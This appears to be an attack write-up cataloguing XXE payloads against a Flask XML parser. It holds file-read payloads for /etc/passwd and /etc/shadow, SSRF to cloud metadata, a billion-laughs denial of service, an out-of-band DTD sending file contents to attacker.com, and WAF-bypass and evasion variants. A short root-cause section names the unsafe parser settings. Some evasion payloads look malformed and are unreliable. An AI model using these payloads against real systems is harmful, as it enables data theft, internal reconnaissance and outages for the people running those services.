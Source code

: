 # XML External Entity (XXE) Injection Payloads Documentation

## Vulnerability Analysis

- **Target Application**: Flask XML Parser
- **Vulnerability Type**: XML External Entity Injection
- **Attack Vector**: Unrestricted XML external entity processing

## Successful Payloads

### 1. Local File Read (Basic XXE)

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<foo>&xxe;</foo>
```

**Impact**: Reads system password file

**Variations**:

```xml
<!ENTITY xxe SYSTEM "file:///etc/shadow">  <!-- Privileged file -->
<!ENTITY xxe SYSTEM "file:///proc/self/environ">  <!-- Environment variables -->
```

### 2. Server-Side Request Forgery (SSRF)

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal-server.local/secrets.txt"> ]>
<foo>&xxe;</foo>
```

**Impact**: Accesses internal network resources

**Variations**:

```xml
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">  <!-- AWS metadata -->
<!ENTITY xxe SYSTEM "gopher://attacker.com:1337/_SSRF%20data">  <!-- Protocol smuggling -->
```

### 3. Denial of Service (Billion Laughs Attack)

```xml
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;">
]>
<lolz>&lol3;</lolz>
```

**Impact**: Causes resource exhaustion and application crash

### 4. Blind XXE (Out-of-Band Data Exfiltration)

```xml
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://attacker.com/collect.dtd">
  %xxe;
]>
<foo>test</foo>
```

With external DTD:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?file=%file;'>">
%eval;
%exfil;
```

**Impact**: Exfiltrates data when direct output isn't visible

## Root Cause Analysis

### Unsafe XML Parsing Configuration

```python
parser = etree.XMLParser(no_network=False, resolve_entities=True)
```

**Key Issues**:

- External entity resolution enabled (`resolve_entities=True`)
- Network access permitted (`no_network=False`)
- No input validation or size restrictions
- No DOCTYPE filtering

## Attack Scenarios

### Scenario 1: Sensitive Data Exfiltration

- Read system files (`/etc/passwd`, `/etc/shadow`)
- Access application configuration files
- Retrieve SSH keys and credentials
- Read database connection strings

### Scenario 2: Internal Network Reconnaissance

- Scan internal network via SSRF
- Access cloud metadata services
- Identify internal service versions
- Enumerate internal infrastructure

### Scenario 3: System Compromise Chain

1. Read sensitive configuration files
2. Extract database credentials
3. Access internal admin interfaces
4. Achieve remote code execution

## Advanced Techniques

### 1. PHP Expect Wrapper (When Available)

```xml
<!ENTITY xxe SYSTEM "expect://id">
```

### 2. UTF-7 Bypass for WAFs

```xml
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ENTITY xxe SYSTEM +ACI-file:///etc/passwd+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe;+ADw-/foo+AD4-
```

### 3. SVG-based XXE (For File Uploads)

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

## Defense Evasion Techniques

### 1. Comment Obfuscation

```xml
<!DOCTYPE foo <!-- --> [ <!-- --><!ENTITY <!-- -->xxe <!-- -->SYSTEM <!-- -->"file:///etc/passwd"<!-- -->> <!-- -->]>
```

### 2. CDATA Wrapping

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"><![CDATA[]]]>&xxe;>
```

### 3. Multiple Encoding

```xml
<!DOCTYPE foo [ <!ENTITY % param1 "file:///etc/passwd"> <!ENTITY xxe SYSTEM "%param1;"> ]>
```
